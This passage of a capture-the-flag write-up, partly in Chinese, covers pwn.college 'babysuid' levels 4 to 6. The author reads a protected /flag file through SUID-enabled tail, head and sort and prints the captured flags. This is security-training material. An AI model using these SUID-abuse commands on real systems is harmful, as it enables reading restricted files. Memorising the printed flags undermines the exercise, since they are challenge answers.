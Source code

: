 ```
exposes you to very simple programs that let you directly read the flag.

I just set the SUID bit on /usr/bin/tail.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level4) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/tail!
hacker@program-misuse-level-4:/challenge$
```
用`tail`

```
hacker@program-misuse-level-4:/challenge$ tail /flag
pwn.college{8A8n6zzy-sUTn179ZADopx1lzFV.0lN0EDL2QjMyMzW}
hacker@program-misuse-level-4:/challenge$
```
我现在猜下一个用head

## level5 Lets you directly read the flag!
```
hacker@program-misuse-level-5:~$ sh file.sh
Welcome to ./babysuid_level5!

This challenge is part of a series of programs that
exposes you to very simple programs that let you directly read the flag.

I just set the SUID bit on /usr/bin/head.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level5) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/head!
hacker@program-misuse-level-5:~$
```
果然用head
```
hacker@program-misuse-level-5:~$ head /flag
pwn.college{wVl3wFV0tMkY6rAFaMWKvEoOt2R.01N0EDL2QjMyMzW}
hacker@program-misuse-level-5:~$
```


## level6 Lets you directly read the flag!
```
hacker@program-misuse-level-6:~$ sh file.sh
Welcome to ./babysuid_level6!

This challenge is part of a series of programs that
exposes you to very simple programs that let you directly read the flag.

I just set the SUID bit on /usr/bin/sort.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level6) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/sort!
hacker@program-misuse-level-6:~$ sort /flag
pwn.college{wRB7HgX_kvB4Uro33D7t1UKWZcE.0FO0EDL2QjMyMzW}
hacker@program-misuse-level-6:~$
```
这次居然是用sort
